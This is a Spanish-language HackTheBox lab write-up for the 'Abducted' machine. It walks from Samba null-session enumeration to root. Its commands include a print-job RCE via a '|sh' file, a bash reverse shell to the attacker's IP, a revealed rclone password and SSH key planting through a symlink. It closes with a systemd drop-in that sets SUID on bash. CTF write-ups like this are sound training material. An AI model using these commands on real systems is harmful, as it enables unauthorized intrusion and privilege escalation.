-----------------
# Descripcion

**`Abducted`** es una máquina Linux de dificultad media en HackTheBox. El acceso inicial se logra explotando la vulnerabilidad de ejecución remota de código **`CVE-2026-4480`** a través de un recurso compartido de impresora en Samba. El movimiento lateral comienza desofuscando credenciales en una configuración de backup de **`Rclone`** para acceder por SSH. Posteriormente, se abusa de una mala configuración en Samba (`insecure wide links` y `force user`) creando enlaces simbólicos para comprometer a un segundo usuario. Finalmente, la escalada a *root* se consigue inyectando directivas maliciosas en los *drop-in units* de **`systemd`** (`smbd.service.d`) para asignar permisos SUID a Bash.

------------------

# Reconocimiento

## Nmap

> Iniciamos la fase de enumeración con **Nmap**, lanzando un escaneo de puertos por el protocolo TCP para identificar servicios expuestos:

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.244.177

Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 02:30 +0200
Initiating SYN Stealth Scan at 02:30
Scanning 10.129.244.177 [65535 ports]
Discovered open port 139/tcp on 10.129.244.177
Discovered open port 22/tcp on 10.129.244.177
Discovered open port 445/tcp on 10.129.244.177
Completed SYN Stealth Scan at 02:30, 11.41s elapsed (65535 total ports)
Nmap scan report for 10.129.244.177
Host is up (0.041s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
           Raw packets sent: 66087 (2.908MB) | Rcvd: 65555 (2.622MB)
```

> Detectamos los puertos 22 (SSH), 139 (NetBIOS) y 445 (SMB) abiertos. Procedemos a lanzar scripts de enumeración básicos para conocer las versiones exactas:

```bash
$ nmap -p22,139,445 -sC -sV 10.129.244.177

Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 02:32 +0200
Nmap scan report for 10.129.244.177
Host is up (0.039s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-09-25T00:33:06
|_  start_date: N/A
|_nbstat: NetBIOS name: ABDUCTED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Samba

> Al identificar el servicio **`Samba`** corriendo en los puertos 139 y 445, utilizamos **`NetExec`** para verificar si el servidor permite la autenticación mediante `Null Sessions`

```bash
nxc smb 10.129.244.177 -u '' -p ''

SMB         10.129.244.177  445    ABDUCTED         [*] Unix - Samba (name:ABDUCTED) (domain:ABDUCTED) (signing:False) (SMBv1:None) (Null Auth:True)
```

> El acceso anónimo es exitoso. A continuación, listamos los `shares`:

```bash
nxc smb 10.129.244.177 -u '' -p '' --shares

SMB         10.129.244.177  445    ABDUCTED         [*] Unix - Samba (name:ABDUCTED) (domain:ABDUCTED) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.177  445    ABDUCTED         [+] ABDUCTED\: 
SMB         10.129.244.177  445    ABDUCTED         [*] Enumerated shares
SMB         10.129.244.177  445    ABDUCTED         Share           Permissions     Remark
SMB         10.129.244.177  445    ABDUCTED         -----           -----------     ------
SMB         10.129.244.177  445    ABDUCTED         HP-Reception    WRITE           Reception printer
SMB         10.129.244.177  445    ABDUCTED         projects                        Hartley Group Project Files
SMB         10.129.244.177  445    ABDUCTED         transfer                        Staff file transfer
SMB         10.129.244.177  445    ABDUCTED         IPC$                            IPC Service (Hartley Group Document Services)
```


> Observamos varios recursos: `HP-Reception`, `projects`, `transfer` e `IPC$`. Sin embargo, solo tenemos permisos de escritura (`WRITE`) en la cola de impresión `HP-Reception`.



> Al enumerar usuarios locales mediante NetExec, identificamos al usuario `scott`:

```bash
nxc smb 10.129.244.177 -u '' -p '' --users

SMB         10.129.244.177  445    ABDUCTED         [*] Unix - Samba (name:ABDUCTED) (domain:ABDUCTED) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.177  445    ABDUCTED         [+] ABDUCTED\: 
SMB         10.129.244.177  445    ABDUCTED         -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.244.177  445    ABDUCTED         scott                         2026-06-02 15:16:45 0        
SMB         10.129.244.177  445    ABDUCTED         [*] Enumerated 1 local users: ABDUCTED
```

> Para obtener información más detallada, nos conectamos vía `RPC` con `**rpcclient**`:

```bash
rpcclient -U "" -N 10.129.244.177

rpcclient $> 
```

> A través de los comandos `enumdomusers` y `queryuser 0x3e8`, confirmamos que el nombre completo de este usuario es Scott Mercer. Además, al ejecutar `enumprinters`, recopilamos más detalles sobre la impresora que habíamos identificado (`HP-Reception`).

```bash
$ enumdomusers

user:[scott] rid:[0x3e8]
```
```bash
$ queryuser 0x3e8

	User Name   :	scott
	Full Name   :	Scott Mercer
	Home Drive  :	\\ABDUCTED\scott
	Dir Drive   :	
	Profile Path:	\\ABDUCTED\scott\profile
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 CET
	Logoff Time              :	Wed, 06 Feb 2036 16:06:39 CET
	Kickoff Time             :	Wed, 06 Feb 2036 16:06:39 CET
	Password last set Time   :	Tue, 02 Jun 2026 17:16:45 CEST
	Password can change Time :	Tue, 02 Jun 2026 17:16:45 CEST
	Password must change Time:	Thu, 14 Sep 30828 04:48:05 CEST
	unknown_2[0..31]...
	user_rid :	0x3e8
	group_rid:	0x201
	acb_info :	0x00000010
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

```bash
$ enumprinters

	flags:[0x800000]
	name:[\\10.129.244.177\]
	description:[\\10.129.244.177\,,Reception printer]
	comment:[Reception printer]
```


# Shell como nobody

## CVE-2026-4480

> Disponemos de acceso de escritura en la impresora compartida. Tras investigar posibles vectores de ataque, encontramos que Samba cuenta con una vulnerabilidad crítica documentada en 2026 **CVE-2026-4480**, la cual permite ejecución remota de código (RCE) a través de los trabajos de impresión.



> La explotación consiste en enviar a imprimir un archivo cuyo nombre sea un *pipe* (`|`) y en su interior se encuentre el comando que queramos ejecutar. Samba interpreta erróneamente el nombre del trabajo, provocando la ejecución del propio archivo.

> Generamos un archivo llamado `|sh` que contiene un *ping* hacia nuestra máquina atacante para verificar la ejecución:

```bash
echo 'ping -c 1 10.10.14.119' > '|sh'
```

> Nos ponemos a la escucha con `tcpdump` para interceptar paquetes ICMP:

```bash
sudo tcpdump -i tun0 ICMP
```

> Nos conectamos a la impresora compartida y mandamos el archivo malicioso a la cola de impresión:

```bash
smbclient //10.129.244.177/HP-Reception -N
smb: \> print "|sh"
```




> El *`ping`* llega correctamente. Confirmada la vulnerabilidad, inyectamos una reverse shell para obtener acceso interactivo:

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.119/7777 0>&1"' > '|sh'
```

> Nos ponemos a la escucha por el puerto 7777 con Netcat y volvemos a imprimir el archivo. Obtenemos una sesión en la máquina víctima con el usuario `nobody`.




# Shell como scott

## Enumeracion

> Listando el directorio `/etc/passwd`, corroboramos la existencia de los usuarios `scott` y `marcus`, ambos con directorios *home*. 

```bash
$ cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
scott:x:1000:1001:Scott Mercer:/home/scott:/bin/bash
marcus:x:1001:1002:Marcus Vale:/home/marcus:/bin/bash
```

> Revisando archivos del sistema, detectamos una carpeta de backups en `/opt/offsite-backup`:

```bash
ls -la /opt/offsite-backup

total 16
drwxr-xr-x 2 root root 4096 Jun  4 13:41 .
drwxr-xr-x 3 root root 4096 Jun  4 13:41 ..
-rw-r--r-- 1 root root  141 Oct  9  2025 rclone.conf
-rwxr-xr-x 1 root root  105 Oct  9  2025 sync.sh
```

## Rclone

> Dentro, localizamos dos archivos de interés: `sync.sh` y `rclone.conf`. El script en Bash sincroniza la carpeta `/srv/projects` utilizando **Rclone**. Al revisar el archivo de configuración `rclone.conf`, encontramos credenciales almacenadas con una contraseña ofuscada:

- `sync.sh`
```bash
#!/bin/bash
/usr/bin/rclone --config /opt/offsite-backup/rclone.conf sync /srv/projects offsite:projects
```

- `rclone.conf`
```ini
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
```

> Rclone ofusca las contraseñas, pero incluye una funcionalidad nativa para desofuscarlas si no existe una contraseña maestra. Utilizamos el comando `reveal` en nuestra máquina:

```bash
rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
# Resultado: iXzvcib3SrpZ
```

> Probamos esta contraseña mediante SSH para el usuario `scott` y logramos autenticarnos con éxito.




# Shell como marcus

## Enumeracion

> Con acceso como `scott`, ejecutamos enumeración con `LinPEAS` pero no encontramos nada interesante, asique enumero los archivos de configuracion de `Samba` y encuentro algo curioso.

```bash
$ cat /etc/samba/smb.conf

[global]
   workgroup = WORKGROUP
   server string = Hartley Group Document Services
   netbios name = ABDUCTED
   map to guest = Bad User
   guest account = nobody
   security = user
   printing = sysv
   load printers = no
   disable spoolss = no
   unix extensions = no
   allow insecure wide links = yes
   log level = 0
   include = /etc/samba/shares.conf
```

> Encontramos que tiene `allow insecure wide links`, esto puede permitir a un usuario al entrar en una carpeta especifica a seguir un `symlink` y entrar en carpetas donde no tiene permiso, pero primero hay que comprobar los permisos de los `share`

```bash
$ cat /etc/samba/shares.conf

[HP-Reception]
   comment = Reception printer
   path = /var/spool/samba
   printable = yes
   guest ok = yes
   print command = /usr/local/bin/printaudit %J %s
   lpq command = /bin/true
   lprm command = /bin/true

[projects]
   comment = Hartley Group Project Files
   path = /srv/projects
   valid users = scott
   read only = no
   browseable = yes

[transfer]
   comment = Staff file transfer
   path = /srv/transfer
   valid users = scott
   force user = marcus
   read only = no
   wide links = yes
   browseable = yes
```

## Wide Links 

> Si nos fijamos en el `share` `transfer` tiene activado `wide links = yes` y en combinacion con `allow insecure wide links = yes` permite que los `symlinks` apunten fuera del directorio compartido. Además, el recurso `[transfer]` especifica `force user = marcus`. Esto significa que si creamos un enlace simbólico que apunte a `/home/marcus` dentro de `/srv/transfer` y accedemos al recurso mediante SMB, Samba navegará al directorio del usuario `marcus` actuando con sus privilegios.

> Ejecutamos el ataque creando el enlace simbólico:

```bash
$ cd /srv/transfer
$ ln -s /home/marcus
$ ls -la

total 8
drwxr-xr-x 2 scott scott 4096 Sep 28 02:05 .
drwxr-xr-x 4 root  root  4096 Mar 31  2025 ..
lrwxrwxrwx 1 scott scott   12 Sep 28 02:05 marcus -> /home/marcus
```

> A continuación, nos conectamos al *`share`* `transfer` por SMB desde nuestra máquina atacante usando las credenciales de Scott:

```bash
smbclient //10.129.244.177/transfer -U scott
```



> Accedemos a la carpeta `marcus` (que en realidad es el enlace simbólico a su `/home`). Creamos un directorio `.ssh` y subimos nuestra clave pública (`id_rsa.pub`) renombrada como `authorized_keys`.




> Ahora podemos iniciar sesión sin contraseña vía SSH utilizando nuestra clave privada:

```bash
ssh marcus@10.129.244.177 -i id_rsa
```




# Shell como root

## Enumeracion

> Una vez comprometida la cuenta de `marcus`, inspeccionamos a qué grupos pertenece:

```bash
$ id

uid=1001(marcus) gid=1002(marcus) groups=1002(marcus),1000(operators)
```

> Marcus forma parte del grupo `operators`. Realizamos una búsqueda de archivos o directorios sobre los que este grupo tenga permisos:

```bash
$ find / -group "operators" 2>/dev/null

/etc/systemd/system/smbd.service.d
```

> Este directorio se utiliza en **`systemd`** para almacenar configuraciones que sobreescriben o complementan el comportamiento de un servicio (en este caso, `smbd.service`). Al tener permisos de escritura sobre él, podemos crear un archivo `.conf` que se ejecute con privilegios de *`root`* cuando el servicio se inicie.

> Verificamos que tenemos permisos para reiniciar el servicio usando `systemctl`:

```bash
systemctl restart smbd
```



## Explotacion

> Al no requerir autenticación para reiniciarlo, creamos un archivo en el directorio con una directiva `ExecStartPre` que asigne el bit **`SUID`** al binario de Bash:

```bash
cat << 'EOF' > /etc/systemd/system/smbd.service.d/exploit.conf
[Service]
ExecStartPre=/bin/bash -c '/usr/bin/chmod +s /bin/bash'
EOF
```

> Para que systemd registre la nueva configuración, recargamos el demonio y reiniciamos el servicio:

```bash
$ systemctl daemon-reload
$ systemctl restart smbd
```



> Comprobamos los permisos de `/bin/bash` y vemos que la directiva se ha ejecutado exitosamente y el binario tiene el bit SUID activo:

```bash
$ ls -l /bin/bash

-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

> Finalmente, lanzamos Bash reteniendo los privilegios (`-p`) y logramos el control total del sistema.

```bash
bash -p
```

